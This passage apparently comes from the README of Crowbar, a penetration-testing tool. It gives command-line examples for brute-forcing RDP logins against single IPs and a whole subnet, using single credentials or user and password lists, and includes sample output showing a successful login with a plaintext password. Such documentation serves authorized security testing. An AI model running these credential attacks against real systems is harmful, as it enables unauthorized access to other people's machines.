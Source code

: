 ```
# ./crowbar.py -b rdp -u DOMAIN\\gokhan alkan -c Aa123456 -s 10.68.35.150/32
2015-03-28 11:03:39 RDP-SUCCESS : 10.68.35.150:3389 - "DOMAIN\gokhan alkan":Aa123456,
```

```
# ./crowbar.py -b rdp -u gokhan alkan@ornek -c Aa123456 -s 10.68.35.150/32
2015-03-28 11:04:00 RDP-SUCCESS : 10.68.35.150:3389 - "gokhan alkan@DOMAIN":Aa123456,
```

- - -

### Demonstration Videos

- https://www.youtube.com/watch?v=4QZAWGsveSM

- - -

### Brute Forcing - Remote Desktop Protocol (RDP)

Below are a few examples of attacking RDP using Crowbar.

RDP brute forcing a single IP address using a single username and a single password:

```
# ./crowbar.py -b rdp -s 192.168.2.182/32 -u admin -c Aa123456
```

![](https://raw.githubusercontent.com/galkan/crowbar/master/images/crowbar-rdp.jpg)

- - -

RDP brute forcing a single IP address using username list file and a single password:

```
# ./crowbar.py -b rdp -s 192.168.2.211/32 -U ~/Desktop/userlist -c passw0rd
```

![](https://raw.githubusercontent.com/galkan/crowbar/master/images/crowvar-rdp-dosya.jpg)

- - -

RDP brute forcing a single IP address using a single username and a password list:

```
# ./crowbar.py -b rdp -s 192.168.2.250/32 -u localuser -C ~/Desktop/passlist
```

![](https://raw.githubusercontent.com/galkan/crowbar/master/images/crowvar-rdp-dosya2.jpg)

- - -

RDP brute forcing a subnet using a username list and a password list in discovery mode:

```
# ./crowbar.py -b rdp -s 192.168.2.0/24 -U ~/Desktop/userlist -C ~/Desktop/passlist -d
```

![](https://raw.githubusercontent.com/galkan/crowbar/master/images/crowvar-rdp-kadi-parola-dosya.jpg)
